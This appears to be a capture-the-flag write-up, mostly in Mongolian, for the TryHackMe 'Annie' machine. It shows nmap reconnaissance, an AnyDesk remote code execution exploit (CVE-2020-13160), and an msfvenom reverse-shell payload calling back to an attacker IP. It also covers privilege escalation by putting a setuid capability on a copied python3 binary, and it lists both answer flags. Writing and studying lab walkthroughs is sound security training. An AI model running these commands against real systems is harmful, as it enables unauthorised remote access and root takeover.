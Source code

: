 # Annie THM
*** 
Difficulty - Medium

## Description
    Remote access comes in different flavors.

<p align="center">
  <img src="https://github.com/Uz169/F.NS357-Machines-writeup/blob/main/Hacksmarter%20THM%20medium/files/2.png">
</p>

<p align="center">
  <img src="https://github.com/Uz169/F.NS357-Machines-writeup/blob/main/Hacksmarter%20THM%20medium/files/3.png">
</p>

## Solve

<p> default web асаагүй байсан тул Nmap хийж эхлэнэ.  
``└─$ nmap -A -sC -sV -sF 10.10.255.156 ``
</p>

<p> 22 буюу ssh , 7070 tcp - realserver гэх 2 порт асаалттай байсан.</p>

<p> Тиймээс 7070 portын тухай хайхад AnyDesk гэх service асаж байсан </p>

<p align="center">
  <img src="https://github.com/Uz169/F.NS357-Machines-writeup/blob/main/Hacksmarter%20THM%20medium/files/3.png">
</p>

<p> searchsploit оос AnyDesk гэж хайхад CVE-2020-13160 - RCE эмзэг байдал байсан ба
POC нь - https://www.exploit-db.com/exploits/49613 </p>

<p> доорх POC -г ажиллуулахын тулд MSFVenom ашиглан backdoor shell code руу хөрвүүлэн гаргана</p>
``msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.4.49.166 LPORT=6969 -b “\x00\x25\x26” -f python -v shellcode`` 

<p> 6969 port дээр listen хийгээд ажиллуулахад rev shell авна</p>

<p>Ингээд user.txt авахад - ```THM{N0t_Ju5t_ANY_D3sk}``` </p>

<p>

``     find / -perm -04000 -ls 2>/dev/null
``
</p>

гэж хайхад  /sbin/setcap илэрсэн үүнийг нь хайж үзээд privilage escalation хийх арга олсон.

    cp /usr/bin/python3 /home/annie  
    setcap cap_setuid+ep /home/annie/python3
    getcap -r / 2>/dev/null
    ./python3 -c ‘import os; os.setuid(0); os.system(“/bin/bash”)’
эцэст нь root.txt ээ авна
root.txt - THM{0nly_th3m_5.5.2_D3sk}


